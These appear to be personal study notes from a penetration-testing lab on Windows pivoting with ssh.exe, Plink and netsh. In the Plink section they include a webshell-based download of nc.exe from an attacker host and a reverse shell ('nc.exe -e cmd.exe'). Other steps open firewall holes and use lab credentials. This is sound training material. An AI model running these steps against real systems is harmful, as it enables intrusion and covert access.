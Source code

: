 ```yaml
---
tags: plink, netsh
---
```

## ssh.exe

OpenSSH client in Windows
- bundled by default since version 1803 (April 2018 Update)
	- will find scp.exe, sftp.exe, ssh.exe, along with other ssh-* utilities in **%systemdrive%\\Windows\\System32\\OpenSSH** location by default
- available as a Feature-on-Demand since 1709 (Windows 10 Fall Creators Update)

E.g. Remote dynamic port forwarding:
![[Pasted image 20240821114336.png]]

- From MULTISERVER03 (a Windows machine) to Kali
- Only the RDP port is open on MULTISERVER03

1. Make sure SSH server is running on Kali:
   `sudo systemctl start ssh`
2. Use FreeRDP to connect to RDP server on MULTISERVER03:
   `xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64`
3. On MULTISERVER03, open a **cmd.exe** window and determine whether SSH is on the box:
   `where ssh`
4. Make sure the version of OpenSSH on Windows is higher than 7.6,meaning we can use it for remote dynamic port forwarding:
   `ssh.exe -V`
5. Create a remote dynamic port forward to our Kali machine:
   `ssh -N -R 9998 kali@192.168.118.4`
6. On Kali, check that the SOCKS proxy port is opened:
   `ss -ntplu`
7. Update `/etc/proxychains4.conf`:
   Overwrite existing configurations with the line `socks5 127.0.0.1 9998`
8. It is set up. Now, we can run **psql** through **proxychains** to connect to the PostgreSQL database, using the same command as if directly connecting from MULTISERVER03:
   `proxychains psql -h 10.4.50.215 -U postgres`

## Plink

- A tool that is popular with network admins
- The command-line-only counterpart of PuTTY
- Benefits:
	- rarely flagged by traditional AV software
	- network admins may have removed OpenSSH, but they likely have Plink installed

> Plink has much of the functionality of the OpenSSH client, but it does not have remote dynamic port forwarding

E.g. Scenario:
![[Pasted image 20240821123733.png]]

- MULTISERVER03 only has a web application on TCP port 80 exposed. All other inbound ports are blocked by firewall, so RDP is no longer available.

Steps:
1. Upload a webshell via the web app on MULTISERVER03
2. Host **nc.exe** on a web server on Kali:
   `sudo systemctl start apache2`
   `find / -name nc.exe 2>/dev/null` (find where **nc.exe** is)
   `sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/` (host it on the web server)
3. Download **nc.exe** to MULTISERVER03 
   `powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe`
4. Set up netcat listener on Kali:
   `nc -nvlp 4446`
5. Execute remote shell on webshell on MULTISERVER03:
   `C:\Windows\Temp\nc.exe -e cmd.exe 192.168.118.4 4446`
6. Host plink.exe on the Apache web server on Kali:
   `find / -name plink.exe 2>/dev/null`
   `sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/`
7. Download plink.exe on MULTISERVER03:
   `powershell wget -Uri http://192.168.118.4/plink.exe - OutFile C:\Windows\Temp\plink.exe`
8. Set up Plink with a remote port forward:
   `C:\Windows\Temp\plink.exe -ssh -l kali -pw -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4`
	- `-l kali -pw [PASSWORD]`: pass username and password of Kali directly here
	- `-R`: set up remote port forward
		- `127.0.0.1:9833`: socket we want to open on the Kali SSH server
		- `127.0.0.1:3389`: RDP server port on the loopback interface of MULTISERVER03 that we want to forward packets to
	- add `cmd.exe /c echo y |` in front of the command if the confirmation isn't working on very restricted Windows shell
	- `192.168.118.4`: kali IP
9. Confirm that the port has opened on Kali:
   `ss -ntplu`
10. Connect to port 9983 on our Kali loopback interface with xfreerdp to get an RDP connection to MULTISERVER03
    `xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833`

## [Netsh](https://learn.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh)

- built-in firewall configuration tool
- native way to create port forward on Windows
	- with the *portproxy* *subcontext* within the *interface* context
	- requires administrative privileges

E.g. scenario:
![[Pasted image 20240821144834.png]]
- MULTISERVER03 is serving web application on TCP port 80
- MULTISERVER03 TCP port 3389 is also accessible (RDP)
- CONFLUENCE01 is not accessible on the WAN interface

Goal:
![[Pasted image 20240821154814.png]]
- SSH into PGDATABASE01 directly from our Kali machine
- create a port forward on MULTISERVER03 that will listen on the WAN interface and forward packets to the SSH port on PGDATABASE01

Steps:
1. RDP into MULTISERVER03:
   `xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64`
2. Run **cmd.exe** as administrator
3. In the command window, set up port forwarding using Netsh:
   `netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215`
	- instruct **netsh interface** to **add** a **portproxy** rule from an IPv4 listener that is forwarded to an IPv4 port (**v4tov4**)
	- listen on port 2222 on the external-facing interface
	- forward packets to port 22 on PGDATABASE01
4. In the command window, confirm that port 2222 is listening:
   `netstat -anp TCP | find "2222"`
5. Confirm port forward is stored:
   `netsh interface portproxy show all`
6. On Kali, check whether we can connect to port 2222 of MULTISERVER01:
   `sudo nmap -sS 192.168.50.64 -Pn -n -p2222` (it is filtered, can't connect because Windows Firewall is blocking inbound connections)
7. Poke a hole in the firewall on MULTISERVER03:
   `netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow`
	- use the **netsh advfirewall firewall** subcontext
	- use **add rule** command
	- `name=`: set name of rule (make it memorable because we need to delete it later on)
	- **allow** connections on the local port (**localport=2222**) on the interface with the local IP address (**localip=192.168.50.64**) using the **TCP** protocol, specifically for incoming traffic (**dir=in**)
8. Check how the port appears from Kali again:
   `sudo nmap -sS 192.168.50.64 -Pn -n -p2222` (is open now)
9. Can now SSH to port 2222 on MULTISERVER03, as though connecting to port 22 or PGDATABASE01:
   `ssh database_admin@192.168.50.64 -p2222`
10. After we're done, delete the firewall rule on MULTISERVER03:
    `netsh advfirewall firewall delete rule name="port_forward_ssh_2222"`
11. Delete the port forward we created:
    `netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64` (no response for success)


